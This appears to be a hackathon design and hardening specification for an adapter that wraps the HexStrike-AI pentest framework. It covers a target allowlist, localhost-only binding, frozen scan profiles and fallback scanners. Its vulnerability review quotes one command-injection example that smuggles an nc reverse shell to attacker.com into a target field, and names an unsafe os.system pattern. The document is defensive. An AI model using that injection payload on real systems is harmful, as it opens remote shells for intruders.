

# HexStrike-AI Integration & Security Assessment — Domain-Vihaan_X

> **Document ID:** SEC-HEX-001  
> **Project Name:** Domain-Vihaan_X  
> **Domain:** Cybersecurity (VIHAAN X Hackathon)  
> **Component:** HexStrike-AI Execution Integration Adapter  
> **Repository Reference:** `https://github.com/0x4m4/hexstrike-ai`  
> **Status:** ACTIVE SPECIFICATION & HARDENING DIRECTIVE  
> **Last Updated:** 2026-11-15T00:00:00+05:30  

---

## 1. Executive Summary & Integration Boundary

**HexStrike-AI** is an external penetration-testing and security-tool orchestration framework. Within the **Domain-Vihaan_X** architecture, HexStrike is strictly an **underlying execution worker**; it is **NOT** the core intelligence, brain, or differentiator of our platform.

```
┌────────────────────────────────────────────────────────────────────────┐
│               PROPRIETARY DOMAIN-VIHAAN_X CONTROL PLANE                │
│  • Asset Catalog & Digital Topology Registry                           │
│  • Unified Finding Normalization Engine                                │
│  • Business Security Graph Engine (NetworkX)                           │
│  • Contextual Risk Scoring Algorithm                                   │
│  • Cross-Domain Attack-Path Correlation Engine                         │
│  • Grounded AI Analysis & Remediation Synthesis Engine                 │
│  • Human-in-the-Loop Approval State Machine                            │
│  • React Flow Interactive Visualization Dashboard                      │
└───────────────────────────────────┬────────────────────────────────────┘
                                    │
                         HARDENED ADAPTER BOUNDARY
             (Target Allowlist, RPC Sanitization, Localhost Only)
                                    │
┌───────────────────────────────────▼────────────────────────────────────┐
│              HEXSTRIKE-AI / CLI EXECUTION WORKER SUBSYSTEM             │
│  • Specialized DAST / Web Endpoint Testing (Authorized Only)          │
│  • Network Service Probing (Local Test Environment Only)               │
│  • Underlying CLI Scanner Tool Wrappers                                │
└────────────────────────────────────────────────────────────────────────┘
```

---

## 2. Security Assessment of HexStrike-AI & Known Vulnerability Review

### 2.1 Public Security Reports & Command Execution Risks
Security research on automated security orchestration tools (including frameworks like HexStrike-AI) has identified critical architectural vulnerability patterns:
1. **Unsanitized Parameter Forwarding:** If target URLs, hosts, or scan flags supplied via API requests are concatenated directly into underlying shell execution strings (e.g., `os.system(f"nmap {target}")`), arbitrary command injection is trivially achievable (e.g., passing `127.0.0.1; nc attacker.com 4444 -e /bin/sh`).
2. **Unrestricted Target Range:** If the framework accepts arbitrary user-supplied hostnames or IP ranges, an attacker could abuse the system to launch unauthorized distributed denial-of-service (DDoS) or unconsented port scans against external targets.
3. **Missing Authentication on Local RPC/MCP:** Local HTTP/MCP endpoints bound without authentication allow any local non-privileged process to trigger security tools or access tool execution results.

### 2.2 Operational Verification Status [UNVERIFIED IN LOCAL SESSION]
- **Team-Reported State:** "Installed. Running. MCP integration configured."
- **Empirical Workspace Audit (2026-11-14 23:28 IST):**
  - Search of Windows active processes (`Get-Process`) returned **0 running processes** matching `hexstrike`.
  - Search of local listening TCP ports (`netstat -ano`) returned **no active sockets** on common ports (8000, 8080, 5000, 9000).
  - Search of user directories returned **no local repository clone** of HexStrike on the host drive.
  - MCP server registry in the current Antigravity environment does **not** list a registered `hexstrike` tool.
- **Architectural Mandate:** We must **NEVER** assume the installed HexStrike revision is secure, running, or authenticated. The adapter must be built defensively with immediate fallback to native CLI scanners.

---

## 3. Division of Labor: Direct CLI Scanners vs. HexStrike-AI

To minimize exposure to HexStrike vulnerabilities and ensure 100% demo stability, scanning responsibilities are strictly divided:

| Scanning Capability | Primary Execution Engine | Fallback Execution Engine | Justification |
| :--- | :--- | :--- | :--- |
| **Git Secret Detection** | **Direct Gitleaks CLI** | None (Native runner) | Gitleaks is faster, lighter, and completely safe via local subprocess; does not need HexStrike. |
| **Infrastructure-as-Code** | **Direct Checkov CLI** | None (Native runner) | Checkov parses local Terraform/YAML files directly; zero external network required. |
| **Dependency CVEs (SCA)** | **Direct Trivy CLI** | None (Native runner) | Trivy evaluates lockfiles locally; instant offline output. |
| **Subdomain Enumeration** | **Direct Subfinder CLI** | HexStrike Passive Recon | Native Subfinder binary provides deterministic JSON output. |
| **DAST & Web Assessment** | **HexStrike-AI Adapter** | Native Mock Fixture | HexStrike provides specialized web application probing modules if online. |

---

## 4. Hardened HexStrike Adapter Specification

The adapter class `HexStrikeAdapter` in `app/adapters/hexstrike_adapter.py` enforces the following controls:

### 4.1 Strict Localhost Binding & Authentication
- The adapter only connects to `http://127.0.0.1:8888` (or configured loopback port).
- It explicitly rejects any connection string pointing to non-loopback IPs.
- Every request must carry an internal secret bearer token: `Authorization: Bearer <HEXSTRIKE_INTERNAL_SECRET>`.

### 4.2 Target Allowlist Enforcement
Before any request is dispatched to HexStrike, the target locator is strictly evaluated against the internal `TargetAllowlist`:
```python
class HexStrikeAdapter:
    def __init__(self, base_url: str = "http://127.0.0.1:8888", token: str = ""):
        self.base_url = base_url
        self.token = token
        self.allowed_targets = [
            re.compile(r"^http://127\.0\.0\.1:[0-9]+"),
            re.compile(r"^http://localhost:[0-9]+"),
            re.compile(r"^[a-zA-Z0-9-]+\.acmecloud\.internal$")
        ]

    def validate_target(self, target: str):
        if not any(pattern.match(target) for pattern in self.allowed_targets):
            raise SecurityException(f"Target '{target}' is not in the authorized allowlist.")
```

### 4.3 Input Sanitization & Frozen Command Profiles
- Users and frontend clients are **strictly forbidden** from supplying custom CLI flags, command-line arguments, or arbitrary options to HexStrike.
- The adapter only supports three frozen, immutable scan profiles:
  1. `PROFILE_PASSIVE_RECON`: DNS and banner enumeration only.
  2. `PROFILE_WEB_AUDIT`: Read-only HTTP GET requests to authorized test web services.
  3. `PROFILE_LOCAL_PORT_CHECK`: Port verification on `127.0.0.1`.

### 4.4 Process Timeouts and Resource Bounds
- All HTTP calls to HexStrike are configured with a strict `timeout=30.0` seconds.
- If HexStrike fails to respond within 30 seconds, the connection is aborted, an alert is logged to `audit_events`, and the platform gracefully marks the scan as `COMPLETED_WITH_WARNINGS`.

---

## 5. Failure and Fallback Behavior



This architecture ensures that even if HexStrike is completely disabled, crashing, or removed from the host, **Domain-Vihaan_X remains 100% operational** during evaluation.

---

## 6. License & Attribution Requirements

- HexStrike-AI is an open-source project created by `0x4m4` (`https://github.com/0x4m4/hexstrike-ai`).
- Domain-Vihaan_X acknowledges HexStrike-AI as an external execution dependency in documentation and about screens in compliance with its open-source license.
- All proprietary code developed for Domain-Vihaan_X (Graph Engine, Risk Scorer, Normalizer, Frontend) remains distinct and unencumbered.
